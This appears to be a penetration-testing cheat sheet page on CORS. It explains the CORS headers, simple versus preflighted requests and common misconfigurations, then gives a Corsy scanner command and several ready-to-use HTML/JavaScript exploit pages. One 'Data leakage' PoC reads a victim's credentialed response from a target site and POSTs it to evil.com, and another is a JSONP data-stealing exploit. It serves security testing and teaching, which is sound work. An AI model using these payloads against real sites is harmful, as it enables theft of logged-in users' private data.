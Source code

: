 # CORS

## Cross-Origin Resource Sharing (CORS)

#### CORS Headers

- [Access-Control-Allow-Origin](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin): define Same-Origin policy exceptions for a specific origin
- [Access-Control-Expose-Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Expose-Headers): define Same-Origin policy exceptions for specific HTTP headers
- [Access-Control-Allow-Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Methods): define Same-Origin policy exceptions for allowed HTTP methods in response to a preflight request
- [Access-Control-Allow-Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Headers): define Same-Origin policy exceptions for allowed HTTP headers in response to a preflight request
- [Access-Control-Allow-Credentials](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials): if set to `true`, define Same-Origin policy exceptions even if the cross-origin request contains credentials, i.e., cookies or an `Authorization` header
- [Access-Control-Max-Age](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Max-Age): define for how long the information in the other CORS-headers can be cached without issuing a new preflight request
- [Access-Control-Request-Method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Request-Method): inform the server about the HTTP method used in the actual request
- [Access-Control-Request-Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Request-Headers): inform the server about the HTTP headers used in the actual request

#### Simple Requests vs Preflighted Requests

**Simple Requests**:

- GET or HEAD requests without any custom HTTP headers
- POST requests without any custom HTTP headers and a `Content-Type` of `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`

**Preflighted Requests:**

- All other requests
- A `preflight request` is sent before the actual request
- Web application needs to respond to the preflight request with appropriate CORS headers to signal to the browser that the actual cross-origin request is allowed

#### CORS Misconfigurations

- Arbitrary Origin Reflection in `Access-Control-Allow-Origin` header
- Improper Origin Whitelist in `Access-Control-Allow-Origin` header
- Trusted Null Origin in `Access-Control-Allow-Origin` header

#### Tools
```
# https://github.com/s0md3v/Corsy
python3 corsy.py -u https://example.com
```

## POC

### Simple

```html
<!DOCTYPE html>
<html>
<head>
<title>CORS PoC Exploit</title>
</head>
<body>
<center>

<h1>CORS Exploit<br>six2dez</h1>
<hr>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
<script type="text/javascript">
 function cors() {
   var xhttp = new XMLHttpRequest();
   xhttp.onreadystatechange = function() {
     if(this.readyState == 4 && this.status == 200) {
        document.getElementById("demo").innerHTML = this.responseText;
     }
   };
 xhttp.open("GET", "http://<vulnerable-url>", true);
 xhttp.withCredentials = true;
 xhttp.send();
 }
</script>

</center>
</body>
</html>
```

## Simple with headers

```html
<html>
<script>
var http = new XMLHttpRequest();
var url = 'Url';//Paste here Url
var params = 'PostData';//Paste here POST data
http.open('POST', url, true);

//Send the proper header information along with the request
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

http.onreadystatechange = function() {//Call a function when the state changes.
    if(http.readyState == 4 && http.status == 200) {
        alert(http.responseText);
    }
}
http.send(params);

</script>
</html>
```

### Data leakage

```html
<html>
<body>
<button type='button' onclick='cors()'>CORS</button>
<p id='corspoc'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from target1337.com about user account
document.getElementById("corspoc").innerHTML = a;
xhttp.open("POST", "https://evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("POST", "https://target1337.com", true);
xhttp.withCredentials = true;
var body = "requestcontent";
var aBody = new Uint8Array(body.length);
for (var i = 0; i < aBody.length; i++)
aBody[i] = body.charCodeAt(i); 
xhttp.send(new Blob([aBody]));
}
</script>
</body>
</html>
```

### JSONP

```html
<!DOCTYPE html>
<html>
<head>
<title>JSONP PoC</title>
</head>
<body>
<center>

<h1>JSONP Exploit<br>YourTitle</h1>
<hr>
<div id="demo">
<button type="button" onclick="trigger()">Exploit</button>
</div>
<script>

function testjsonp(myObj) {
  var result = JSON.stringify(myObj)
  document.getElementById("demo").innerHTML = result;
  //console.log(myObj)
}

</script>

<script >

  function trigger() {
    var s = document.createElement("script");
    s.src = "https://<vulnerable-endpoint>?callback=testjsonp";
    document.body.appendChild(s);
}

</script>
</body>
</html>
```